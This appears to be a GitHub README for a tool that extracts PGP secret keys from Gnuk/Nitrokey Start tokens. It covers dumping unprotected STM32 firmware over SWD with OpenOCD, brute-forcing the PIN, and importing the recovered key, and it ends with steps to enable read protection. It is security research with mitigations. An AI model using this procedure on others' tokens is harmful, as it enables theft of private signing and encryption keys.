


Gnuk Extractor
==============

This tool can extract the PGP secret keys from the dumped firmware of a [Gnuk](https://salsa.debian.org/gnuk-team/gnuk/gnuk) token.
It was tested on a [Nitrokey Start](https://shop.nitrokey.com/shop/product/nitrokey-start-6)
and on a Gnuk Token made from a [$2 ST-LINK/V2 clone](https://blog.danman.eu/2-usb-crypto-token-for-use-with-gpg-and-ssh/).

In theory, the flash memory on the *Nitrokey Start* should have the read protection enabled.
However, [this was not the case](https://github.com/Nitrokey/nitrokey-start-firmware/issues/14) on the one I received.
The [next section](#extract-firmware-and-unique-device-id) describes how to verify if the read protection is enabled and extract the firmware if it is not.
Then, this tool can be used to bruteforce the PIN and extract the PGP secret keys.
Finally, the [last section](#how-to-protect-a-gnuk-token) explains how to protect a Gnuk Token against this attack.


Extract Firmware and Unique Device ID
-------------------------------------

The Gnuk firmware and the unique device ID (UDID) can be extracted from the STM32 microcontroller through the
[Serial Wire Debug](https://en.wikipedia.org/wiki/JTAG#Similar_interface_standards) (SWD) interface.
The following pictures show where to solder the 4 SWD wires on a *Nitrokey Start*
and how to connect them to a cheap [ST-LINK/V2 clone](https://www.aliexpress.com/wholesale?SearchText=st-link+v2).




[OpenOCD](http://openocd.org/) can then be used to dump the flash memory and read the STM32 UDID.
The Gnuk token must also be connected to USB before executing the following commands.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
wrote 131072 bytes to file firmware.bin from flash bank 0 at offset 0x00000000 in 2.207341s (57.988 KiB/s)

$ openocd -f resources/stm32udid.cfg
...
0x1ffff7e8 34 ff 6c 06 4e 55 37 32 26 33 24 43             4.l.NU72&3$C
```

In the above example, the firmware was successfully extracted to `firmware.bin` and the STM32 UDID is `34ff6c064e55373226332443`.

On devices where the read protection is correctly enabled, the output looks similar to the following one.

```
$ openocd -f resources/stm32read.cfg
...
Info : flash size = 128kbytes
Error: error reading to flash at address 0x08000000 at offset 0x00000000
Error: Read error

$ openocd -f resources/stm32udid.cfg
...
embedded:startup.tcl:21: Error: error reading target @ 0x00000
```

This means that the firmware cannot be extracted through the SWD interface and this tool cannot be used to recover the PGP secret keys.


Install in a virtualenv
------------------------

```
git clone --recurse-submodules https://github.com/rot42/gnuk-extractor
virtualenv -p python3 venv
. ./venv/bin/activate
pip install ./gnuk-extractor
```


Gnuk extractor usage
--------------------

```
usage: gnuk-extractor [-h] [-o FILE] [-d DICT] -f FW -k PUB -u UDID

Extract PGP private key from GNUK / Nitrokey Start firmware.

optional arguments:
  -h, --help            show this help message and exit
  -o FILE, --out FILE   export private key to FILE [default: stdout]
  -d DICT, --dict DICT  password dictionary

required arguments:
  -f FW, --fw FW        GNUK / Nitrokey Start firmware
  -k PUB, --key PUB     corresponding GPG public key
  -u UDID, --udid UDID  STM32 unique device ID
```

### Example

```
$ gnuk-extractor -f tests/firmwares/nistp256.firmware.bin \
                 -k tests/pubkeys/nistp256.pub.key.asc \
                 -u 34ff6c064e55373226332443 | gpg --import
[INFO] Firmware unlocked with default password: b'123456'
gpg: key BD9FD171C654FBBB: public key "NIST P-256 test key <secp256r1@test.key>" imported
gpg: key BD9FD171C654FBBB: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

$ gpg -K
/home/user/.gnupg/pubring.kbx
-----------------------------
sec   nistp256/0xBD9FD171C654FBBB 2019-04-26 [SC] [expires: 2029-04-23]
      41516C79920336EFFD758288BD9FD171C654FBBB
uid                   [ unknown] NIST P-256 test key <secp256r1@test.key>
ssb   nistp256/0x4FC05EC0115BA7C8 2019-04-26 [E] [expires: 2029-04-23]
ssb   nistp256/0x395F280AA0766B5A 2019-04-26 [A]
```


How to Protect a Gnuk Token
---------------------------

There are two options to enable the read protection on a Gnuk token.

1. It is possible to [ugprade the firmware](https://github.com/Nitrokey/nitrokey-start-firmware/blob/gnuk1.2-regnual-fix/prebuilt/README.md#firmware-upgrade-instructions) through USB.
   The `upgrade_by_passwd.py` script will enable the read protection after installing the new firmware.
   This will however delete the secret keys from the token, so this method can only be used if the user has a backup of their PGP secret key.
  
        $  python3 ./upgrade_by_passwd.py ../prebuilt/RTM.7/regnual.bin ../prebuilt/RTM.7/gnuk.bin 
        Admin password: 
        ...
        Protecting device
        Finish flashing
        Resetting device
        Update procedure finished
        ...

2. The read protection can also be enabled through the SWD interface. This method has the advantage of not erasing the keys currently on the token, but requires a bit of soldering.
   The 4 SWD wires should be connected [as described above](#extract-firmware-and-unique-device-id) and then *OpenOCD* can be used to enable the read protection.

        $ openocd -f resources/stm32lock.cfg 
        ...
        Info : device id = 0x20036410
        Info : flash size = 128kbytes
        stm32x locked
        target halted due to debug-request, current mode: Thread 
        xPSR: 0x01000000 pc: 0x08000268 msp: 0x20005000

